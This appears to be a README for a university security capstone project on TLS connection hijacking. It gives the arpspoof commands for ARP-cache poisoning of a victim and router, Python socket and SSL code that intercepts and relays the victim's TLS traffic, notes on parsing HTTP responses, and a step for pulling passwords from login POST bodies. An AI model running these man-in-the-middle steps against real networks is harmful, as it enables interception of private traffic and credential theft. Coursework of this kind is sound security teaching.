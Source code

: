 # Computer Security Capstone Project

---

## 📌 Table of Contents

- [1. Project 1 - TLS Connection Hijacking](##Project1-TLSConnectionHijacking)
- [2. 套件與環境](#2-套件與環境)
- [3. 程式邏輯與說明](#3-程式邏輯與說明)
- [4. 測試與觀察結果](#4-測試與觀察結果)

---

## Project 1 - TLS Connection Hijacking

### GOAL
- Make use of arpspoofing to deceive router and victim
- Establish TLS connections between both attacker and victim, and attacker and web server
- Parsing HTML packets to ensure that the victim's browser displays the webpage properly.
- __Steal the password__ while victim is entering the login page

### STEP1 - ARP Spoofing
Make the __victim / router__ assume that the attacker is where the packet should go at next hop (originally the router / victim) by deceiving the arp packets.
```bash
sudo arpspoof -i <INTERFACE> -t <GATEWAY_IP> <CLIENT_IP>
sudo arpspoof -i <INTERFACE> -t <CLIENT_IP> <GATEWAY_IP>
```

### STEP2 - Hijacking a TLS Connection
Create a socket to make connection with victim, based on the previous ARP spoofing, the victim sends packets to the attacker. 
```python
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind((HOST, PORT))
server.listen(5)

client_socket, addr = server.accept()
context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
context.load_cert_chain(certfile=certFile, keyfile=keyFile)
victim_connection = context.wrap_socket(client_socket, server_side=True)
```
Create connections between attacker and server, the server sends website information to router, and based on the previous ARP spoofing, the router will sends packets back to attacker, too.
```python
context = ssl.create_default_context()
server_connection = context.wrap_socket(socket.socket(socket.AF_INET), server_hostname=host)

server_connection.connect((host, port))
server_connection.sendall(request)
```

### STEP3 - Handle Large Packets
Normally, the size of a website is huge that one must handle packet several times. By parsing HTML header, coping with large packets will be much easier.
- HTML header format
  - "\r\n\r\n" at the end of header
  - every header is splited by "\r\n"
  - find __Content-Length__ and __Trandfer-Encoding__
- Content-Length
  - Recording the total size of the entire web page.
- Tansfer-Encoding
  - Sometimes, "Content-Length" won't be used instead of "Transfer-Encoding" since there might be a dynamic generated pages
  - If the tag is "Chunked", each chunk indicates its own length, and a final chunk with a length of 0 signals the end.
```text
4\r\n
Wiki\r\n
5\r\n
pedia\r\n
0\r\n
\r\n
```

### STEP4 - STEAL Password
- Find header named "Type", if the type of this request is post, check HTML body and the body format will be,
```text
username=<username>&password=<password>
```
